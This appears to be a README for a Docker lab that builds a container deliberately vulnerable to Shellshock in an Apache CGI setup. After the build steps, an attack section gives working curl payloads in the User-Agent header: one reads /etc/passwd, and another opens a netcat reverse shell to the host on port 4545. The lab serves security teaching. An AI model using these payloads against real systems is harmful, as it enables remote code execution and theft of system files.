 
# Shellshock

CentOS8 + Apache2 + Bash (v4.3) based on https://github.com/tex2e/docker-shellshock-cgi

Requirements:
- Docker
- git
- netcat command

### Build
1. command: $git clone https://github.com/juuugee/docker-shellshock-cgi.git
2. navigate to the git directory
3. command: $docker build -t seccode/shellshock <**absolute Path to the directory**>
4. command: $docker run -itd -p 80:80 --privileged --add-host=host.docker.internal:host-gateway --name secode_shellshock seccode/shellshock /sbin/init

### Attack (Linux terminal preferred)
Get the Information out of **etc/passwd** <br>
curl：
```bash
curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:80/cgi-bin/test.cgi
```
#
Create a Reverse Shell 2 Terminals required <br>
1. Terminal (Start nc Listener):
```
nc -lp 4545
```
2. Terminal (Establish a connection via Shellshock vulnerability):
```
curl -A "() { :;}; /bin/bash -c \"nc host.docker.internal 4545 -e /bin/bash\"& " http://localhost:80/cgi-bin/test.cgi
```

Go to the first terminal and use the **reverse shell**: </br>
For example, read the rights of the shell:  

### See Also

- [mubix/shellshocker-pocs: Collection of Proof of Concepts and Potential Targets for #ShellShocker](https://github.com/mubix/shellshocker-pocs)
- [docker-shellshockable/Dockerfile at master · Zenithar/docker-shellshockable](https://github.com/Zenithar/docker-shellshockable/blob/master/Dockerfile)
